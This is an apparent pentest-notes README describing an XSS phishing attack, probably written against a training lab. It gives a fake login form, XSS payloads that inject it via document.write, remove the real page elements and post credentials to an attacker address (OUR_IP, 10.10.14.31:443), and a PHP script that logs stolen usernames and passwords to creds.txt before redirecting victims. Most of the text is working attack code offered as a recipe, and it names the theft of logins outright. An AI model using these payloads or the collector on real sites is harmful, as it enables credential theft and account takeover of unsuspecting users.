# XSS Phishing attack.
## Attack Overview
Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker.</br>
A common form of XSS phishing attack is through _injecting fake login forms that send the login details to the attacker's server_, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. 
This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.<br />
__This time our target is:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/afc0a1f6-4b50-4f66-bb5a-db7207a3ad04" width="350"><br />
__After injecting our payload:__<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/8e956fb4-ee2a-4678-a574-bfd36b76e41f" width="350">

## Login Form Injection
This is a simple login form that we can inject.
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

After we have found the correct payload, we can try to load the login form. We have to minify our HTML login and add it to our payload.          
__Result (minified html code + XSS payload):__
```html
<script>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>')</script>
```
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/390f7bb2-f462-4396-a6b9-86b9fcf94292
" width="350">

### Making it more realistic.
As we saw in the last picture, we can still see the original web functionality. We must delete it to make our attack more realistic. We can delete part of the code that is being shown after our injection too, to do so, we only need to add a JavaScript comment after the payload `<!--`.

#### Removing Elements
For removing Elements we can use `document.getElementById()` function + `.remove()`.
- Obtaining the id of the element we want to remove:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c9e4c784-205a-4c97-8d66-641d5622e3b6" width="700"><br />
- Adding it to our payload:
</br>

```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.31:443><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/c2040539-1a58-40c2-97d8-3dafc6a6535f" width="500">

## Executing the attack.
We can create a file to get and write the credentails we obtain into a file. We will create a redirection to the original web page in the same file.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+"); #ESCRIBIENDO LAS CREDENCIALES EN UN ARCHIVO CREDS.TXT
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php"); #REDIRECCIÓN A UNA WEB LEGÍTIMA.
    fclose($file);
    exit();
}
?>
```
Once everything is ready we can send the phishing attack to our victim and just wait listening on the selected port of our payload.
![12](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/73ef1459-0d21-4a31-a150-f1e99496f839)

![13](https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/ad3763e1-2ee6-447c-a831-680f03f5a8e2)






